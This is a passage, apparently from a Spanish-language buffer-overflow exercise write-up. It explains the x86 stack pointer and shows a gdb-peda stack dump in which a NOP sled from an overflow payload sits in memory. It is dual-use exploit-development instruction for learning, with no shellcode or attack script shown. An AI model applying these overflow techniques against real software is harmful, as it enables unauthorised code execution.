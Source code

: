 >$esp es el registro del stack pointer en arquitecturas x86. Este registro apunta a la cima de la pila en la memoria. En el contexto de un programa que ejecuta un exploit de desbordamiento de buffer, $esp te dirá dónde está actualmente la "cima" de la pila, lo cual es crítico para entender cómo tus datos (o payload) están organizados en la memoria.

```bash
gdb-peda$ x/300wx $esp
0xffffd240:	0xffffd400	0x00000000	0x00000000	0x56556237
0xffffd250:	0x00000000	0x00000000	0x00000013	0x00000000
0xffffd260:	0xf7c216ac	0xf7fd9e61	0xf7c1c9a2	0xffffd290
0xffffd270:	0xf7e1dff4	0x56556280	0x00000000	0xf7c237c5
0xffffd280:	0x00000001	0x00000000	0x00000078	0xf7c237c5
0xffffd290:	0x00000002	0xffffd344	0xffffd350	0xffffd2b0
0xffffd2a0:	0xf7e1dff4	0x56556212	0x00000002	0xffffd344
0xffffd2b0:	0xf7e1dff4	0x56556280	0xf7ffcba0	0x00000000
0xffffd2c0:	0x8a0cc8d7	0xf1c6e2c7	0x00000000	0x00000000
0xffffd2d0:	0x00000000	0xf7ffcba0	0x00000000	0xd1348400
0xffffd2e0:	0xf7ffda30	0xf7c23756	0xf7e1dff4	0xf7c23888
0xffffd2f0:	0xf7fcaac4	0x56559000	0x00000002	0x56556090
0xffffd300:	0x00000000	0xf7fdbe80	0xf7c23809	0x56559000
0xffffd310:	0x00000002	0x56556090	0x00000000	0x565560c1
0xffffd320:	0x56556212	0x00000002	0xffffd344	0x56556280
0xffffd330:	0x565562e0	0xf7fceca0	0xffffd33c	0xf7ffda30
0xffffd340:	0x00000002	0xffffd4bc	0xffffd4e9	0x00000000
0xffffd350:	0xffffd5fa	0xffffd60e	0xffffd619	0xffffd626
0xffffd360:	0xffffd684	0xffffd693	0xffffd6b7	0xffffd6ce
0xffffd370:	0xffffdde7	0xffffddfb	0xffffde08	0xffffde12
0xffffd380:	0xffffde1d	0xffffde30	0xffffde49	0xffffde58
0xffffd390:	0xffffde63	0xffffde6e	0xffffde91	0xffffdeac
0xffffd3a0:	0xffffdeca	0xffffdee8	0xffffdef0	0xffffdf16
0xffffd3b0:	0xffffdf3f	0xffffdf54	0xffffdf5f	0xffffdf67
0xffffd3c0:	0xffffdf87	0xffffdfb6	0xffffdfbf	0x00000000
0xffffd3d0:	0x00000020	0xf7fc8570	0x00000021	0xf7fc8000
0xffffd3e0:	0x00000033	0x00000e30	0x00000010	0x0f8bfbff
0xffffd3f0:	0x00000006	0x00001000	0x00000011	0x00000064
0xffffd400:	0x00000003	0x56555034	0x00000004	0x00000020
0xffffd410:	0x00000005	0x0000000b	0x00000007	0xf7fca000
0xffffd420:	0x00000008	0x00000000	0x00000009	0x56556090
0xffffd430:	0x0000000b	0x00000000	0x0000000c	0x00000000
0xffffd440:	0x0000000d	0x00000000	0x0000000e	0x00000000
0xffffd450:	0x00000017	0x00000000	0x00000019	0xffffd49b
0xffffd460:	0x0000001a	0x00000002	0x0000001f	0xffffdfcb
0xffffd470:	0x0000000f	0xffffd4ab	0x0000001b	0x0000001c
0xffffd480:	0x0000001c	0x00000020	0x00000000	0x00000000
0xffffd490:	0x00000000	0x00000000	0x29000000	0xf4d13484
0xffffd4a0:	0xe3943ad4	0xa212ba18	0x6939ccce	0x00363836
0xffffd4b0:	0x00000000	0x00000000	0x00000000	0x6d6f682f
0xffffd4c0:	0x696d2f65	0x6c657567	0x6174532f	0x764f6b63
0xffffd4d0:	0x6c667265	0x6c2f776f	0x6c657665	0x656c2f73
0xffffd4e0:	0x546c6576	0x65657268	0x90909000	0x90909090
0xffffd4f0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd500:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd510:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd520:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd530:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd540:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd550:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd560:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd570:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd580:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd590:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd5a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd5b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd5c0:	0x90909090	0x90909090	0x90909090	0x90909090
```